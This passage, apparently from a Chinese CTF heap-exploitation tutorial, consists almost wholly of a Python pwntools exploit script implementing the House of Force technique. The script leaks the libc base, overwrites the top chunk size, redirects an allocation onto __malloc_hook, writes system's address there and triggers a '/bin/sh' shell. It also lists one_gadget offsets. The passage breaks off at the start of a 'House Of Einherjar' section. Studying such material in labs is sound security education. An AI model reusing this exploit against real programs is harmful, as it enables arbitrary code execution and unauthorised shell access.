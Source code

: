 ```bash
def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr


libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)

top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
#duan()
malloc_hook=libc.sym['__malloc_hook']+libc_base
realloc = libc.sym["__libc_realloc"]
system=libc.sym['system']+libc_base
leak('malloc_hook',malloc_hook)
offset=(malloc_hook-0x20)-top_chunk_addr
leak('offset',offset)
'''
ogs = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
og=ogs[1]+libc_base
leak('og',og)
'''
add(offset,'kkk')
add(0x10,p64(system))

#duan()
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))

#duan()
itr()
```

# House Of Einherjar

## 介绍
